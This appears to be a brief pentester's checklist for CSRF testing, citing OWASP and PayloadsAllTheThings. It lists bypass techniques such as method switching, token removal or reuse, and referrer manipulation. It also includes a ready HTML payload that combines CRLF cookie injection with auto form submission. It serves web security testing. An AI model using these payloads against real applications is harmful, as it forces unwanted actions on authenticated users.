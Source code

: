 # Cross-site request forgery (CSRF)
> Cross-Site Request Forgery (CSRF/XSRF) is an attack that forces an end user to execute unwanted actions on a web application in which they're currently authenticated. CSRF attacks specifically target state-changing requests, not theft of data, since the attacker has no way to see the response to the forged request. - OWASP
## Test first:
Referrer: https://example.com
if:
"Invalid referrer header" so:
```js
Referrer-Policy: unsafe-url
```
else:
"Invalid referrer validation" so:
```html
<meta name="referrer" content="no-referrer">
```
## Then:
1) csrf without csrf protection.
2) csrf validation depends on request method  - Change post to get.
3) csrf delete csrf parameter and value.
4) csrf - drop request and test the token in other session.
5) csrf + crlf - /?search=test%0d%0aSet-Cookie:%20csrfKey=your-key.
```html
<img src="https://domain/?search=test%0d%0aSet-Cookie:%20csrfKey=your-key" onerror="document.forms[0].submit()">
```

## Referrer:
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSRF%20Injection
